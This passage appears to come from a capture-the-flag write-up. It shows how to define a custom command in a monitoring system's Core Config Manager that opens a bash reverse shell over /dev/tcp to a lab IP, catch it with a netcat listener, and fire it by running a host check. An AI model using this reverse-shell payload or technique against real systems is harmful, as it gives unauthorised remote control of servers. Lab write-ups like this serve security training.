 ### Reverse shell

We now navigate our way to `Configure > Core Config Manager > Commands`. Here we click `Add New` and define a command. And we will create reverse shell command.

```shell
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.25/8000 0>&1'
```

![monitored11](./assets/monitored11.png)

Then we click `Save` and finish by clicking `Apply Configuration` at the bottom.

Now we start a local `netcat` listener.

```shell
labadmin@labmachine:~/monitored$ nc -lvnp 8000
Listening on 0.0.0.0 8000
```

Finally, we go to `Monitoring > Hosts` and click on `localhost`. Here we select the `duser_command` command in the `Check command` drop down list and finish by clicking `Run Check Command`.
